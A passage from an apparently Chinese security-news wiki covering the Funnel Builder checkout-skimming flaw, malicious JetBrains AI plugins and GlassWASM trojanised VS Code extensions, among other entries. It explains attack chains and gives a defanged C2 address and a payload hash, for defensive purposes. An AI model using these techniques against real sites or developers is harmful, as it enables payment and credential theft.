## Ch12.063 OpenAI launches Daybreak to combat cyber threats

> 📊 Level ⭐⭐ | 7.1KB | `entities/ciodive-openai-daybreak-cyber-threats.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/ciodive-openai-daybreak-cyber-threats.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/ciodive-openai-daybreak-cyber-threats.md)

## 深度分析
**1. Daybreak 的市场定位：不是替代现有安全工具，而是「上车」企业的 AI 安全战略**
文章引用 Gartner 分析师 John Watts 的关键判断：「我们相信它（Daybreak）将作为现有工具的补充，而非完全替代」。这个定性非常重要——OpenAI 推出 Daybreak 的目的不是做一个新的 Splunk 或 CrowdStrike，而是**将 AI 安全能力嵌入企业已有的安全工作流**。
从市场竞争角度看，OpenAI 的核心优势不是安全工具的专业深度（这是 CrowdStrike、 SentinelOne 等专业厂商的领地），而是： (a) 能够利用 GPT-4o、Codex 等前沿模型的推理和代码能力；(b) 拥有与主流云平台（Cloudflare、Cisco）的合作伙伴关系，可以触达企业边界。这种「AI 原生 + 渠道合作」的模式，与 Anthropic 的 Mythos 形成直接竞争，但定位有所不同。
**2. Anthropic Mythos vs OpenAI Daybreak：两种 AI 安全范式的碰撞**
文章提到 Anthropic 的 Mythos 模型「让 SaaS 世界暂停」（when a preview revealed major existing vulnerabilities），而 Daybreak 是 OpenAI 的回应。两者有一个关键区别：**Mythos 是封闭预览的，Daybreak 是公开可用的**。
这个差异揭示了 OpenAI 和 Anthropic 对 AI 安全市场的不同赌注：

- **Anthropic** 似乎在赌「更安全、更谨慎的模型」能够赢得对安全最敏感的企业客户（金融、医疗、政府）
- **OpenAI** 似乎在赌「让所有企业都能用 AI 做安全检测」的规模效应
同时，Daybreak 的合作伙伴列表（Cloudflare、Cisco、CrowdStrike、Oracle、Zscaler）暗示 OpenAI 选择**与安全厂商合作而非竞争**——这是比 Anthropic 更加开放的生态策略。
**3. 「AI 公司需要人们消费他们的产品」——企业 AI 采购的真正动机**
CIO Dive 引用 Forrester 分析师 Jeff Pollard 的话：「AI 公司需要人们消费他们的产品、购买订阅和使用 token。这是实现那一目标的一种方式。」
这句话的洞察价值在于：它将 Daybreak 不仅仅视为一个安全产品，更视为**OpenAI 增加企业 token 消耗量的渠道**。当企业使用 Daybreak 进行漏洞扫描时，他们在使用 OpenAI 的模型；随着使用规模扩大，OpenAI 的 API 收入和Enterprise 订阅收入都会增长。
这对企业技术决策者的启示是：**在评估 AI 安全产品时，需要将「安全价值」和「AI 消费成本」分开评估**，而非被「AI 原生」的标签所迷惑。Daybreak 可能是一个优秀的漏洞扫描工具，但它的成本结构可能不同于传统的按资产/按容量计费的安全工具。
**4. 三阶段工作流的安全工程价值**
OpenAI 将 Daybreak 设计为三阶段流程： (1) 用 AI 推理和 token 使用量对高影响威胁排序；(2) 在企业内生成并测试风险（有范围限制的访问、监控和审查）；(3) 发送审计就绪的证据帮助企业跟踪、验证和修复漏洞。
这个工作流设计的核心价值在于**「审计就绪」这个输出承诺**——企业安全团队面临的挑战不仅是「找到漏洞」，更是「证明漏洞已被修复且有记录」。Daybreak 的第三阶段直接针对这个需求。
但值得注意的是，「审计就绪」与「真正修复」之间存在差距。Gartner 的 Watts 也指出：「组织必须跨整个修复链部署资源，包括补丁测试、部署和回滚，以减少修补时对运营的影响，而非仅仅关注 Codex Security。」

## 实践启示
**对于企业安全团队和 CISO：**
1. **Daybreak 最有价值的场景是「快速初步评估」而非全面安全测试**：Daybreak 的公开可用性和合作伙伴分发渠道使其适合作为渗透测试前的「快速扫描」，但对于需要深入人工验证的高风险漏洞，仍然需要专业安全团队。
2. **将 AI 安全工具纳入「检测-验证-修复」工作流，而非替代整个流程**：Daybreak 能够加速「发现」和「证据生成」阶段，但「验证可利用性」和「修复决策」仍然需要人类安全专家判断。将 AI 工具视为「初级安全分析师」而非「自动化渗透测试员」更符合当前能力边界。
3. **对「AI 公司出品」的安全工具进行独立的 ROI 评估**：正如 Pollard 所暗示，AI 公司推出安全产品的动机可能不仅是「解决安全问题」，还包括「增加 token 消耗量」。企业应该在 POC 阶段就测量实际成本（token 消耗 vs 传统工具成本），而非仅评估功能覆盖率。
**对于安全产品从业者：**
4. **「AI + 安全」的竞争焦点正在从「检测能力」转向「工作流集成能力」**：Daybreak 和 Mythos 的发布节奏和生态策略说明，下一轮 AI 安全竞争不在于「谁找到更多漏洞」，而在于「谁能够将 AI 安全能力无缝嵌入企业已有的安全运营流程」。工具的 API 集成深度、合作伙伴生态、审计输出质量，将成为新的差异化维度。
5. **关注「AI 安全工具」的「AI 供应商绑定」风险**：使用 Daybreak 意味着深度依赖 OpenAI 的模型和服务；使用 Anthropic 的 Mythos 意味着依赖 Anthropic 的模型。如果你的安全运营流程建立在特定 AI 供应商上，后续切换成本可能很高。在 POC 阶段应测试多供应商方案的互操作性。
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/ciodive-openai-daybreak-cyber-threats.md)

## 相关实体

- [Useful Memories Become Faulty When Continuously Updated by LLMs](https://github.com/QianJinGuo/wiki/blob/main/entities/useful-memories-become-faulty-when-continuously-updated-by-llms.md)
- [Tether launches developer grants program for local-first AI and payments infrastructure](https://github.com/QianJinGuo/wiki/blob/main/entities/tether-launches-developer-grants-program-for-local-first-ai-and-payments-infrastructure.md)
- [Tether launches developer grants program for local AI payments](https://github.com/QianJinGuo/wiki/blob/main/entities/tether-launches-developer-grants-program-for-local-ai-paymen.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/openai-developer-ecosystem.md)

---

## Ch12.064 Funnel Builder 漏洞正被利用于 WooCommerce 支付 skimming

> 📊 Level ⭐⭐ | 7.0KB | `entities/funnel-builder-flaw-under-active-exploitation-enables-woocom.md`

## 事件概述
WordPress Funnel Builder 插件（FunnelKit 出品）存在一处高危安全漏洞，目前已在野被积极利用。攻击者通过该漏洞在 WooCommerce 结账页面注入恶意 JavaScript，窃取信用卡号、CVV 和账单地址等支付数据。漏洞影响所有 **40,000+** 使用该插件的 WooCommerce 商店，目前尚无官方 CVE 编号。厂商已于 **3.15.0.3** 版本发布修复补丁。
## 技术细节
### 攻击向量
Funnel Builder 包含一个公开暴露的结账端点，允许传入请求选择要执行的内部方法类型。然而旧版本设计时未对调用者权限进行校验，也未限制允许调用的方法范围。攻击者可发送未认证请求，调用某个将攻击者可控数据直接写入插件全局设置的内部方法。
注入的代码片段随后会被嵌入到每个 Funnel Builder 结账页面中，攻击者由此可在受感染站点的每次结账交易时触发任意 `<script>` 标签。

### 攻击手法
攻击者在插件的 **"External Scripts"** 设置中植入伪造的 Google Tag Manager 脚本。该代码看起来像普通分析工具，与商店的真实标签混在一起，但实际加载的是一个支付 skimmer，负责从结账流程中窃取信用卡号、CVV 和账单地址。

这与此前 The Hacker News 报道过的 Google Tag Manager 被利用进行支付 skimming 的模式一致，反映出攻击者对供应链第三方脚本的持续依赖。

## 处置建议
1. **立即更新**：将 Funnel Builder 插件升级至 3.15.0.3 或更高版本
2. **检查外部脚本**：前往 Settings > Checkout > External Scripts 审查所有条目，删除任何不认识的内容
3. **监控异常**：检查结账页面是否存在非预期的第三方脚本加载

## 相关实体
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)
## 时间线
| 时间 | 事件 |
|------|------|
| 2026-05-19 | The Hacker News 报道漏洞已进入主动利用阶段 |
| 漏洞公开前 | 已有至少一起攻击案例，载荷伪装为 GTM 并连接 C2 |

## 深度分析
1. **未认证访问 + 方法枚举 = 直接RCE路径**：Funnel Builder 的结账端点对调用者权限零校验，允许攻击者通过方法类型参数调用任意内部方法，将可控数据直接写入插件全局设置。这本质上是一个无需身份验证的代码注入通道，攻击者可直接绕过认证层实现远程代码执行。
2. **GTM 伪装 + WebSocket C2 = 高度隐蔽的动态载荷**：攻击载荷伪装成 Google Tag Manager 加载器，与真实分析标签混在一起，巧妙利用审核人员对熟悉追踪代码的信任盲点。同时通过 WebSocket 连接 C2 服务器 (`wss://protect-wss[.]com/ws`) 动态拉取定制化 skimmer，使恶意代码的行为可根据受害者商店实时调整，极大增加了检测难度。
3. **插件级持久化 vs 文件级篡改**：攻击者将恶意脚本写入插件数据库设置而非文件系统，这意味着传统文件完整性监控工具（如 WAF、文件哈希校验）无法检测到异常。插件设置存储在 `wp_options` 中的特性使得恶意代码在管理员不知情的情况下随页面加载自动执行。
5. **40,000+ 受影响站点暴露了 WordPress 生态的碎片化安全困境**：大量站点运行未更新的插件版本，而官方修复补丁的部署完全依赖站点管理员的主动行动。这种被动响应模式意味着即使修复版本已发布，绝大多数受影响的站点仍将在未来数周至数月内处于可被利用状态。

## 实践启示
1. **立即强制更新 Funnel Builder 至 ≥3.15.0.3**：将插件加入网站健康检查清单，对生产环境的 WordPress 插件版本实施自动化合规扫描，阻止低于安全版本的插件在生产环境运行。
2. **审计所有"External Scripts"设置**：立即登录 WordPress 管理后台，访问 Settings > Checkout > External Scripts，逐条审查每一条第三方脚本定义。对于所有非官方 GTM/Analytics 的脚本条目，在确认为业务必需前一律视为可疑并移除。
3. **在结账页面部署 CSP 并限制 script-src**：为 WooCommerce 结账页面设置严格的内容安全策略（CSP），明确限定允许加载的脚本来源（仅限可信域名），阻断来自未授权域名的 JavaScript 执行，即使攻击者已在设置中注入脚本也无法加载。4. **对 WordPress 插件实现运行时行为监控**：部署专门的 WordPress 安全监控（如 Wordfence、Sucuri 或 Patchstack），重点监控 `wp_options` 表中 plugin settings 的变更行为，以及结账页面 DOM 中动态插入的可疑 script 标签。
5. **建立第三方脚本引入的强制审核流程**：制定安全策略要求所有新引入的第三方脚本（GTM、Analytics、Chat Widget 等）必须经过安全团队的代码审查和域名 Verify后方可上线。对于电商平台，建议在结账流程中完全禁用非必要第三方脚本。
## 相关实体
- [Funnel Builder Flaw Under Active Exploitation Enables Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-under-active-exploitation-enables-woocommerce-checkout-skimm.md)
- [Funnel Builder Flaw Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-woocommerce-checkout-skimm.md)
- [Teampcp Claims Sale Of Mistral Ai Repositories Amid Mini Shai Hulud Attack 1](https://github.com/QianJinGuo/wiki/blob/main/entities/teampcp-claims-sale-of-mistral-ai-repositories-amid-mini-shai-hulud-attack-1.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Cve 2026 20182 Cisco Sd Wan Vhub Bypass](https://github.com/QianJinGuo/wiki/blob/main/entities/cve-2026-20182-cisco-sd-wan-vhub-bypass.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/funnel-builder-flaw-under-active-exploitation-enables-woocom.md)

---

## Ch12.065 The down fall of bug bounties

> 📊 Level ⭐⭐ | 6.9KB | `entities/down-fall-of-bug-bounties.md`

## 核心要点
- Published Time: 2026-05-18T12:32:41.000Z Markdown Content: May 18 2026 A few days ago, I was reading a post by Kabir Ach...

## 相关实体

- [anthropic acquires stainless](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-acquires-stainless.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/down-fall-of-bug-bounties.md)

## 深度分析
### AI slop 涌入：从信号噪声比恶化到平台信任危机
AI 模型的大规模普及正在从根本上瓦解 bug bounty 生态系统的信号质量。与 CTF 场景类似，AI 工具让任何拥有强大模型访问权限的人都能生成看似可信的安全报告，但这与真正的安全研究能力之间存在巨大鸿沟。
核心矛盾在于：优秀的安全研究员借助 AI 提升了产出效率，而缺乏基础的报告者则借助 AI 大规模生产无人审查的低质量报告。这种两极分化导致 triage 队列被 AI slop 淹没，平台不得不消耗不成比例的人力资源去甄别无效报告。
值得注意的是，AI slop 的涌入并非平台体验下降的唯一原因。作者明确指出，即便撇开 AI 噪音影响，平台在响应速度和人性化处理方面的长期退化同样严重。以 Uber 为例，一位在平台深耕近十年、排名第一的研究员提交的 PII 泄漏高危漏洞报告，从 4 月 24 日提交到 5 月 6 日才获得人类首次响应，历时 12 天——而此前同类漏洞的平均处理时间是 1-3 天。 这一案例揭示了一个更深层的问题：平台的风险评估和优先级排序机制已失效，优秀研究员的长期贡献和 AI slop 在平台眼中被等量齐观。

### 平台应对策略的局限：技术对抗 vs 信任重建
HackerOne 选择用 AI 对抗 AI，试图通过自动化检测识别 AI 生成报告；Bugcrowd 则侧重于引入更严格的控制机制来阻断 AI agent 的批量提交行为。 两种路径都未能解决根本问题：平台未能建立基于研究员历史贡献的可信度评估体系，导致真正有价值的研究者反而被淹没在审查延迟中。
这与 Daniel Stenberg 关闭 cURL bug bounty 的决策形成呼应——后者明确以「AI slop 泛滥」为由终止了整个项目，虽然他也承认部分 AI 辅助报告确实具有价值（参见 [Anthropic S Bug Hunting Mythos Was Greatest Marketing Stunt Ever Says Curl Creat](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-s-bug-hunting-mythos-was-greatest-marketing-stunt-ever-says-curl-creat.md)）。这种矛盾立场揭示了安全社区对 AI 的核心焦虑：AI 确实能提升安全研究的效率，但同时也系统性地提升了噪声（noise）而非信号（signal）。

### 研究员动机退化：从经济激励到纯粹的研究热情
作者坦承自己参与 bug bounty 的动力已从经济回报彻底转向对技术的纯粹热爱——这是经济激励失效的危险信号。 当顶尖研究员发现其十年积累的可信度在平台算法中毫无权重、提交高价值漏洞得不到及时响应时，理性选择是转向能快速验证成果的平台，或将精力投入纯粹以兴趣为导向的研究。人才流失将进一步降低平台的有效报告密度，形成恶性循环。

### 安全研究的自动化博弈：防御方的结构性劣势
更宏观地看，AI 正在重塑安全研究的攻防经济学。勒索软件集团已经开始使用 LLM 生成了30种语言的钓鱼邮件，而 bug bounty 自动化工具有能力快速完成 fuzz→分类→利用的全链路（参见 [Cybersecqwen 4B Why Defensive Cyber Needs Small Specialized Locally Runnable Mod](https://github.com/QianJinGuo/wiki/blob/main/entities/cybersecqwen-4b-why-defensive-cyber-needs-small-specialized-locally-runnable-mod.md)）。防御方若不拥有并运营自己的 AI 工具，将在反应速度上处于系统性劣势。这一趋势意味着传统依赖人工审查的 bug bounty 模式，不仅在人力资源上面临 AI slop 的压力，在与攻击方的自动化博弈中也逐渐丧失优势。

### 平台与社区的认知错位
作者批评平台在应对 AI 浪潮时缺乏对自身社区的深层理解——尤其是对那些贡献了十年高水平研究的老牌研究员缺乏差异化保护机制。 这种「 hacker first 」精神的背离，正在腐蚀 bug bounty 计划最初存在的社区信任基础。Uber 作为作者持续贡献近十年的平台，其对待高质量报告的冷漠态度，是一个警示性的案例：当平台将所有报告一视同仁地置入噪音队列，它实际上是在向最 valuable 的贡献者发送退出信号。

## 实践启示
1. **建立研究员可信度分层机制**：平台应将研究员的历史提交记录、响应时效和有效漏洞率纳入评估体系，对高可信度研究员开启快速通道，从根本上解决「 slop 淹没 signal 」的问题。这需要平台从单纯的报告处理工具转变为具备长期研究员关系管理能力的社区平台。
2. **AI 检测需与人工复审结合，而非单纯对抗**：HackerOne 的「 AI vs AI 」策略在方向上存在根本缺陷——AI 生成的报告可能具有与真实研究相似的表面特征，误伤率高的检测机制会进一步寒了高价值研究者的心。有效的 AI 预处理应该配合人工复审的快速通道机制。
3. **对攻击方的自动化提速不能视而不见**：企业应意识到 bug bounty 生态的劣化与网络威胁的 AI 化加速是同步发生的。在漏洞响应延迟增加、人力审查资源被 AI slop 消耗的同时，攻击者正利用 AI 工具实现更高频、更大规模的漏洞挖掘与利用。企业需要将 AI 辅助的防御能力建设纳入安全预算（参见 ），而非单纯依赖外部 bug bounty 生态。
4. **研究者在选择平台时需评估响应效率**：对于专注于高质量研究的安全研究员，平台的响应速度和人性化管理比漏洞悬赏金额更重要。作者的经历表明，十年排名第一的历史贡献在平台眼中可能一文不值——选择那些对高质量报告有明确 SLA 承诺的平台，是保护自身研究价值的理性策略。
5. **安全社区需建立 AI 报告预处理共识**：借鉴 Daniel Stenberg 的实践，更建设性的方案是建立「 AI 报告预处理 pipeline」——自动聚类、去重、初步分类，减少维护者的筛选成本，同时保留人工复审的上升通道（参见  的分析）。

---

## Ch12.066 Mozilla warns UK: Breaking VPNs will not magically fix Britain's age-check mess

> 📊 Level ⭐⭐ | 6.9KB | `entities/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britai.md`

## 核心要点
- Mozilla 向英国 DSIT（科学、创新和技术部）提交正式意见，反对对 VPN 进行年龄限制
- VPN 用途：公共 Wi-Fi 安全、远程办公、新闻工作者保护、 activists、规避审查——属于"essential privacy and security tools"
- UK Online Safety Act 年龄核查导致 VPN 使用量急剧上升，用户为避免向成人网站提交身份数据
- Mozilla 指出：只有极少数未成年人使用 VPN 绕过年龄限制，大多数绕过手段是假生日、借用账户、脆弱的面部估测系统
- Mozilla 警告：强制 VPN 年龄验证会产生"首先提供个人信息才能使用隐私保护工具"的悖论
- Mozilla 已在 Firefox 中测试内置 VPN 功能，浏览器层面的 VPN 屏蔽不可行
## 相关实体
- [Mozilla Warns Uk Breaking Vpns Will Not Magically Fix Britain S Age Check Mess](https://github.com/QianJinGuo/wiki/blob/main/entities/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britain-s-age-check-mess.md)
- [Mozilla Warns Uk Breaking Vpns Will Not Magically Fix Britain S Age Check Mess 1](https://github.com/QianJinGuo/wiki/blob/main/entities/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britain-s-age-check-mess-1.md)
- You Ll Soon Be Able To Bet On Bitcoin Volatility Not Just Price On Cme
- [London Met Police Big Tech Data Requests](https://github.com/QianJinGuo/wiki/blob/main/entities/london-met-police-big-tech-data-requests.md)
- [Clarity Act 5 Things](https://github.com/QianJinGuo/wiki/blob/main/entities/clarity-act-5-things.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britai.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)
## 深度分析
### 安全工具被政治化的危险性
此案的核心矛盾：VPN 作为基本安全基础设施，被英国政府因为-age check 政策副作用而重新定义为"teenage contraband"。Mozilla 的立场是"VPNs are basic security infrastructure, not teenage contraband"。
这种政治化产生了一个悖论：为了保护未成年人的安全，政府考虑限制一个被所有年龄用户用于保护自身安全的工具。这反映了技术政策制定中一个常见模式——以"保护"为名目的限制往往难以精准，只会产生更广泛的附带损害。

### 年龄核查政策的系统性失效
Mozilla 的核心论点之一：年龄核查失败的原因并不是 VPN——而是系统本身的设计缺陷。
研究显示未成年人的主要绕过手段：

- 假生日（fake birth dates）
- 借用账户（borrowed accounts）
- 脆弱的面部估测系统（weak facial estimation systems）——儿童用"drawn-on fake mustache"就能骗过面部年龄估测
这说明 age check 政策在技术实现上存在根本性问题。即使完全屏蔽 VPN，那些更简单、成本更低的绕过手段仍然存在。政策制定者在追求可实施的限制时，选择了一个技术上难以实现且副作用大的目标。

### VPN 监管的逻辑困境
Mozilla 提出的悖论值得关注：
"users would first need to hand over personal information before accessing software intended to reduce tracking and data collection"
这与 age check 立法的初衷相矛盾：如果 age check 的目的是保护未成年人不向不安全平台提交个人数据，那么强制用户在下载 VPN 前提交个人数据，只会将同一批数据暴露给另一个实体。

### 监管与平台演进的竞赛
文章指出"Mozilla has already been testing built-in VPN functionality directly inside Firefox"——隐私工具正在向浏览器内部集成。
这意味着任何针对独立 VPN 应用的政策都将面临：
1. 浏览器内置 VPN 功能的规避
2. 操作系统级 VPN 设置的合法使用
3. 境外 VPN 服务的获取
监管试图控制的是客户端软件，但用户采用的隐私保护方式正在向更难监管的层次迁移。

### Mozilla 的政策立场
Mozilla 反复强调 Britain is drifting toward"safety through surveillance"而非解决实际驱动网络伤害的平台激励结构——推荐算法、参与度优化机制、平台商业模式。
这是一个更宏观的政策批评：年龄核查是针对症状而非病因的政策反应。真正驱动未成年人接触不适当内容的平台机制（算法推荐、无限滚动、个性化内容）并未被触及。

## 实践启示
### 对隐私倡导者的策略参考
Mozilla 的意见书格式值得参考：

- 承认 age check 政策的合理目标（保护未成年人）
- 提供替代性证据（VPN 使用数据显示少量未成年人受影响）
- 指出政策的逻辑悖论（为保护隐私而强制提交隐私数据）
- 提供系统层面的解决方案建议

### 技术政策讨论中的框架竞争
这场辩论涉及两种政策框架的竞争：

- "Age check 是保护未成年人的必要工具"——安全框架
- "Age check 是以隐私换安全的虚假解决方案"——隐私框架
理解这两个框架的核心假设和论据边界，有助于在类似政策讨论中进行有效论证。

### 对浏览器/隐私工具开发者的商业启示
Firefox 内置 VPN 的趋势表明：隐私工具正从独立应用向浏览器内置功能迁移。这对独立 VPN 服务商有直接影响——他们的市场可能被浏览器自带功能蚕食。同时也意味着监管压力会从独立应用向浏览器平台延伸。

---

## Ch12.067 JetBrains Marketplace Ecosystem Security Update: Malicious AI Plugins

> 📊 Level ⭐⭐ | 6.8KB | `entities/jetbrains-marketplace-malicious-ai-plugins-security-update.md`

# JetBrains Marketplace Ecosystem Security Update: Malicious AI Plugins

2026-06-16, JetBrains received security reports: 15 third-party plugins on JetBrains Marketplace were stealing developer-configured AI Provider API Keys. These plugins masqueraded as legitimate AI tools (text generation, unit testing) but executed unauthorized backend functions when users entered API keys and clicked "Apply".

## Attack Chain

### Vector
15 malicious plugins distributed on JetBrains Marketplace, operated by 7 publisher accounts. Plugins functioned as advertised (low-visibility strategy) while hiding exfiltration logic.

### Exfiltration Mechanism
- Developer enters AI Provider API Key in plugin configuration
- Clicking "Apply" triggers unauthorized backend function
- API Key exfiltrated to attacker-controlled server
- Network-level evasion prevents local security tool detection

### Response
1. **Full removal**: 15 plugins purged from Marketplace
2. **Publisher bans**: 7 accounts permanently terminated
3. **Remote kill-switch**: Affected plugins marked "broken" in backend, auto-disabled on IDE restart
4. **No core compromise**: JetBrains source code, dev environments, corporate infrastructure unaffected

## AI Agent Security Implications

### Developer Tool Supply Chain Risk
Rapid expansion of AI coding tools (Copilot, Claude Code, Cursor) makes API Keys high-value targets. Plugin/extension markets are ideal supply chain attack vectors.

### API Key Management Best Practices
- Never enter API Keys directly in third-party plugins; use IDE native Secret Storage or env vars
- Rotate API Keys regularly even without detected compromise
- Monitor API usage patterns for anomalies

### Marketplace Security Mechanisms
- JetBrains remote kill-switch is effective emergency response
- Stricter plugin review needed, especially for API Key handling plugins
- Code signing and behavioral audit should be marketplace standard

## Related Supply Chain Incidents

- [Semgrep Intercom PHP](https://github.com/QianJinGuo/wiki/blob/main/entities/semgrep-intercom-php-supply-chain.md) - malicious package via package manager
- [Claude Code Malicious Skills](https://github.com/QianJinGuo/wiki/blob/main/entities/skill-issues-compromising-claude-code-with-malicious-skills-agents.md) - Agent/Skill ecosystem risk
- [Checkmarx Jenkins Plugin](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md) - plugin marketplace attack

## 深度分析

**"低可见度策略"是供应链攻击的进化**：与传统恶意插件（功能异常、用户立即察觉）不同，这 15 个插件"功能正常工作"——它们确实提供了 AI 文本生成、单元测试等合法功能，同时在后台静默窃取 API Key。这种"有用的恶意软件"策略大幅降低了被举报的概率，因为用户不会怀疑一个"正常工作"的插件。

**API Key 成为 AI 时代的高价值目标**：随着 Copilot、Claude Code、Cursor 等 AI 编码工具的普及，开发者配置的 AI Provider API Key 成为比传统凭据更高价值的攻击目标——一个有效的 Claude API Key 可以直接产生经济成本（按 token 计费）或用于生产恶意内容。这解释了为什么攻击者愿意投入精力构建"有用"的插件来窃取这些 Key。

**Remote Kill-Switch 是平台级安全的创新**：JetBrains 的"远程杀死开关"机制（将受影响插件标记为 broken，IDE 重启时自动禁用）是平台安全的创新模式——它允许平台在不依赖用户手动操作的情况下，快速消除已部署的威胁。这比传统的"发布安全公告、等待用户更新"模式高效得多。

**插件市场需要"行为审计"而非仅"代码审查"**：当前的插件审核主要关注代码静态分析，但这 15 个插件的恶意行为（API Key 外发）在静态代码中可能看起来像是正常的网络请求。插件市场需要引入运行时行为审计——监控插件在实际运行中的网络请求模式、API 调用行为等。

## 实践启示

1. **绝不直接在第三方插件中输入 API Key**：使用 IDE 原生 Secret Storage 或环境变量传递 API Key，而不是在插件配置界面中直接输入。这是最简单也最有效的防护措施。

2. **定期轮换 AI Provider API Key**：即使没有检测到泄露，也应定期轮换 Key（建议每 30 天）。大多数 AI Provider（OpenAI、Anthropic、Google）都支持多 Key 并存，轮换不会中断服务。

3. **监控 API 使用模式异常**：设置 API 使用量告警——如果突然出现非工作时间的大量调用、异常地理位置的请求、或不熟悉的模型使用模式，立即轮换 Key。

4. **优先选择官方或 Verified 插件**：在 JetBrains Marketplace 中，优先选择 JetBrains 官方或经过验证的插件。对于 AI 相关插件，检查发布者历史、下载量、评论模式——新发布者发布的 AI 插件是高风险类别。

5. **关注插件市场的安全机制演进**：评估你使用的 IDE/编辑器是否具备类似的远程 kill-switch 能力。对于企业环境，考虑使用插件白名单机制，只允许经过安全审查的插件安装。

-> [Source Archive](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/jetbrains-marketplace-malicious-ai-plugins-security-update.md)

---

## Ch12.068 GlassWASM: WebAssembly Malware Found in Trojanized Open VSX Extensions

> 📊 Level ⭐⭐ | 6.8KB | `entities/glasswasm-webassembly-malware-open-vsx.md`

# GlassWASM: WebAssembly Malware Found in Trojanized Open VSX Extensions

> **来源**: socket.dev
> **发布日期**: 2026-06-15
> **发现者**: Socket Threat Research Team

## 摘要

Socket 威胁研究团队在 Open VSX 扩展市场中发现编译后的 WebAssembly 恶意软件，嵌入在木马化的 VS Code 扩展中。攻击者利用跨注册表信任差距（cross-registry trust gap），将合法扩展克隆后在 Open VSX 上以相同名称重新发布，附加 ChaCha20 加密的 WASM 载荷。恶意 WASM 模块使用 Solana 区块链作为抗审查的 C2 dead-drop，通过 SPL Memo 字段接收攻击者指令并执行 OS 特定的 download-and-execute 命令。该攻击族被命名为 GlassWASM，与此前的 GlassWorm 攻击存在关联。

## 核心要点

### 1. 受影响的扩展

| 扩展 | 版本 | 伪装身份 | 上传时间 |
|------|------|----------|----------|
| `exargd/vsblack` | 0.0.1 | 黑色主题变体 (原版 2019 年发布) | 2026-06-09 |
| `noellee-doc/flint-debug` | 0.1.1 | Ethereum/Flint 智能合约调试器 (原版 2020 年发布) | 2026-06-10 |

两个扩展均通过单一 Open VSX 账户 `zaitoona43`（GitHub UID 291961103）上传，该 GitHub 账户在发布时仅 3 天历史。

### 2. 攻击链

```
合法扩展克隆 → 附加 ChaCha20 加密 WASM → onStartupFinished 激活钩子
    → go.run() 自动执行 → 解密字符串 → 连接 Solana RPC
    → 读取 SPL Memo 字段中的攻击者指令 → child_process 执行下载的载荷
```

### 3. WASM 载荷技术分析

| 属性 | 详情 |
|------|------|
| SHA-256 | `558b4f1d9a263c13756ab0126c09dd080c85ba405b29488e1c4e6aa68b554f1f` |
| 大小 | 824,552 bytes |
| 格式 | WebAssembly MVP (v1) |
| 工具链 | TinyGo → `js/wasm` target |
| 函数数 | 478 |
| 数据段 | 45 (uses bulk-memory DataCount) |
| 混淆 | ChaCha20 字符串加密; debug/name section 已剥离 |
| 宿主要求 | JavaScript runtime (Node.js / browser) via `syscall/js` bridge |

**关键行为特征**: WASM 模块**无法自行执行任何 I/O**——没有网络或文件系统 syscall。所有操作通过 `valueCall` / `valueInvoke` / `valueNew` 委托给 JavaScript 宿主。`.wasm` 是混淆后的逻辑核心，loader script（TinyGo `wasm_exec.js` glue + invocation shim）是必需的另一半。

### 4. 混淆策略

- **无明文网络指标**: 所有关键字符串使用 ChaCha20 加密，仅在运行时解密到内存
- **WASI import 最小化**: 仅 `proc_exit`、`fd_write`、`random_get`
- **GoJS bridge**: 通过 `gojs.syscall/js.*` imports 委托所有 I/O 给 JS 宿主
- **TinyGo asyncify**: 使用 asyncify-based goroutine scheduler 导出
- **签名检测困难**: 无明文 URL、域名或 C2 地址

### 5. 身份冒充而非 Typosquatting

这不是 typosquatting——publisher 和 extension 名称与原版**完全相同**。VS Code Marketplace 将 publisher ID 绑定到 verified owner，攻击者无法在那里重用 `noellee-doc` 或 `ExarGD`。但 Open VSX 作为 VSCodium、Gitpod、Cursor、Windsurf 等 VS Code forks 的**默认注册表**，没有相同的 publisher verification 机制。

开发者看到的是名称、版本、描述和 repo link 全部匹配 Marketplace listing 的扩展——**cross-registry trust gap** 被利用。

### 6. Solana 区块链 C2

使用 Solana mainnet JSON-RPC API 作为 C2 dead-drop：
- **无硬编码服务器**: 没有可被 seizure 或 sinkhole 的 C2 域名
- **抗审查**: 运营者只需发布新 transaction 即可轮换 second-stage infrastructure
- **SPL Memo 字段**: 存储攻击者指令
- **针对性**: Flint 调试器的 blockchain/"transaction hash" 框架与 payload 的 crypto-developer focus 一致

## 深度分析

### 跨注册表信任差距：供应链攻击的新前沿

GlassWASM 攻击揭示了一个系统性问题：**Open VSX 与 VS Code Marketplace 之间的信任不对称**。

VS Code Marketplace 有 publisher verification，但 Open VSX 作为众多 IDE forks 的默认注册表缺乏同等保护。攻击者利用的是：
1. 合法扩展长期不更新（2019/2020 年发布）
2. 原作者不太可能监控 Open VSX
3. 用户信任名称/版本匹配的扩展

这与 [LLM 安全红队测试](https://github.com/QianJinGuo/wiki/blob/main/concepts/llm-security-red-teaming.md) 中的常见模式一致：攻击者找到信任链中最薄弱的环节。

### WebAssembly 作为恶意软件载体

GlassWASM 标志着恶意软件向 **WASM 作为混淆层** 的转型：
